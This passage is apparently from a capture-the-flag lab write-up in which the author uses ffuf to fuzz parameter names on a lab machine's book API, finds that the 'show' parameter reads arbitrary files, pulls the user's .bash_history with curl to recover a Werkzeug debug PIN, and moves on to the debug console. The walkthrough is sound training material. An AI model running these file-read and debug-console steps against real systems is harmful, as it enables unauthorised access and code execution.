 ```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.254.203:5000/api/v1/resources/books?FUZZ=.bash_history" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.254.203:5000/api/v1/resources/books?FUZZ=.bash_history
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

show                    [Status: 200, Size: 116, Words: 5, Lines: 8, Duration: 183ms]
author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 190ms]
id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 191ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 184ms]
```


As seen, the `show` parameter has got a size of `116`, let's check it out:

```json
curl "http://10.10.254.203:5000/api/v1/resources/books?show=.bash_history"
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

It works and we got the pin, let's go into `/console` then:

![Pasted image 20250509115547.png](../../IMAGES/Pasted%20image%2020250509115547.png)
